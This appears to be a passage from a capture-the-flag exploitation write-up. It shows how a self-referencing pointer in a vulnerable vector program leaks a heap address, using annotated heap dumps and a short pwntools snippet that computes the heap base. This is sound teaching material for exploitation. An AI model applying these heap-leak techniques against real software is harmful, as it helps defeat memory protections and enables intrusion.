On a side note: `calloc` checks for overflows and returns an error instead of
allocating a block of the wrong size. That's exactly, why you should use
`calloc` in your code ;)  
# Heap address leak  
We can create a pointer to itself on the heap by allocating a chunk and
placing the pointer at index 5:

To better understand why, let's look at the heap before the allocation  
```  
0x0000559d027e42a0│+0x0000: 0x0000000020000004       <--- Our vector (Here's
the size)  
0x0000559d027e42a8│+0x0008: 0x0000000000000000       <--- Index 0  
0x0000559d027e42b0│+0x0010: 0x0000000000000000       <--- Index 1  
0x0000559d027e42b8│+0x0018: 0x0000000000000000       <--- Index 2  
0x0000559d027e42c0│+0x0020: 0x0000000000000000       <--- Index 3  
0x0000559d027e42c8│+0x0028: 0x0000000000020d41       <--- Top chunk of the
heap, next allocation will be served from here  
0x0000559d027e42d0│+0x0030: 0x0000000000000000  
0x0000559d027e42d8│+0x0038: 0x0000000000000000  
0x0000559d027e42e0│+0x0040: 0x0000000000000000  
0x0000559d027e42e8│+0x0048: 0x0000000000000000  
```  
When we malloc() the string to store in the vector, the heap looks like this:  
```  
0x0000559d027e42a0│+0x0000: 0x0000000020000004       <--- Vector size  
0x0000559d027e42a8│+0x0008: 0x0000000000000000       <--- Index 0  
0x0000559d027e42b0│+0x0010: 0x0000000000000000       <--- Index 1  
0x0000559d027e42b8│+0x0018: 0x0000000000000000       <--- Index 2  
0x0000559d027e42c0│+0x0020: 0x0000000000000000       <--- Index 3  
0x0000559d027e42c8│+0x0028: 0x0000000000000031       <--- Size of the
allocated chunk + flags (PREV_IN_USE)  
0x0000559d027e42d0│+0x0030: 0x6161616161616161       <--- Here is our data  
0x0000559d027e42d8│+0x0038: 0x6161616161616161       <--- Here is our data  
0x0000559d027e42e0│+0x0040: 0x6161616161616161       <--- Here is our data  
0x0000559d027e42e8│+0x0048: 0x0061616161616161       <--- Here is our data  
0x0000559d027e42f0│+0x0050: 0x0000000000000000        <--- Chunks are always
aligned to 0x10 boundaries, so we have some padding here  
0x0000559d027e42f8│+0x0058: 0x0000000000020d11        <--- The top chunk is
now here  
```  
Note: We can only allocate size 0x30 chunks, because the main loop requests
size 0x20 chunks and 0x20 + 0x8 (libc size data) = 0x28, which is aligned to
0x30  
Now, index 5 corresponds to the first 8-bytes of our user input. So the
pointer, which points to the allocation, is stored at the beginning of the
allocation, which creates a self-loop.

Now, we can read from this address to get the address of our that allocation.
Here's the necessary python code:  
```python  
# Allocate the buffer, with a pointer to itself in its content  
set(5, p64(0) + b'a' * 0x10)

# We can now leak the heap addr from the self-loop  
heap_base = u64(get(5).ljust(8, b'\x00')) - 0x2d0  
log.info(f"Heap base: {hex(heap_base)}")  
```
